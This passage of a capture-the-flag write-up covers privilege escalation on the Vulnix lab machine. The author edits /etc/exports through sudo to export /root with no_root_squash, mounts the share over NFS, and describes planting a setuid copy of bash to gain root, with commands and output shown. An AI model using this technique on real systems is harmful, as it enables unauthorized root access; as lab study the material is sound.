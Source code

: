```
 Swap usage: 0%=> / is using 93.3% of 773MBGraph this data and manage this system at <ins>https://landscape.canonical.com/</ins>New release ‘14.04.5 LTS’ available.
 Run ‘do-release-upgrade’ to upgrade to it.The programs included with the Ubuntu system are free software;
 the exact distribution terms for each program are described in the
 individual files in /usr/share/doc/*/copyright.Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
 applicable law.vulnix@vulnix:~$
```

**2.3 Privilege Escalation**

I was very lucky to notice this straight away that running **sudo -l** shows that **vulnix** allowed to edit **/etc/exports.** This way I can add an entry for the entire directory and do whatever I want.

Yet one problem stood in the way, how do I restart the VM so the changes take place? Not sure what other people think about this but unfortunately the author’s walkthrough was to restart the VM. I’m very against this as in a pentest, I don’t have access to the physical machine, if I can’t reboot it with my current privilege, I won’t be able to restart it.

Also due to the fact that there’s a secure_path set, we can’t manipulate the PATH variable (except by running sudo -e which we can’t).

```
vulnix@vulnix:~$ sudoedit /etc/exports
vulnix@vulnix:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
# to NFS clients. See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4 gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix *(rw,root_squash)
/root *(rw, no_root_squash)vulnix@vulnix:~$
```

Let’s edit the file and update /home/vulnix so we’re able to. Restart the VM and remount the shared directory. We can upload a local exploit to gain root, or just copy /bin/bash and give it setuid permissions.

We’ll run bash with -p flag to keep the original file’s permissions.

```
┌─[root@Dasagreeva]─[~]
        └──╼ #showmount -e 192.168.56.10
        Export list for 192.168.56.10:
        /root        *
        /home/vulnix *
        ┌─[root@Dasagreeva]─[~]
        └──╼ #mkdir /tmp/RVulnix
        ┌─[root@Dasagreeva]─[~]
        └──╼ #mount -t nfs 192.168.56.10:/root/ /tmp/RVulnix/
        ┌─[root@Dasagreeva]─[~]
        └──╼ #cd /tmp/RVulnix/
        ┌─[root@Dasagreeva]─[/tmp/RVulnix]
        └──╼ #ls -la
        total 32
        drwx------  4 root root 4096 Jan  1 20:21 .
        drwxrwxrwt 22 root root 4096 Jan  2 13:19 ..
        -rw-------  1 root root    0 Jan  1 20:30 .bash_history
        -rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
        drwx------  2 root root 4096 Sep  2  2012 .cache
```